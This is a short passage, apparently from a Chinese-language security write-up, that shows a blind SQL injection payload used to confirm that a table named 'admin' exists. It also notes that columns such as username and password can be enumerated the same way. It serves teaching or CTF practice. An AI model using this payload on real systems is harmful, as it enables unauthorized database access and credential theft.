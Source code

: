 ![](img/56a3b18ac005efa0e40a817e1d39f701.png)

实际上很难枚举所有的表，所以假设有一个名为 quiz 和 admin 的表。我使用下面的查询验证了这一点

```
' and (SELECT (CASE WHEN EXISTS(SELECT table_name FROM information_schema.tables where length(table_name) = 5 and table_name = 'admin') THEN 1 ELSE 0 END)) = 1 #
```

类似地，可以枚举列数和列名，但是查看登录请求时，我假设 admin 表将有 3 列 id、用户名和密码。
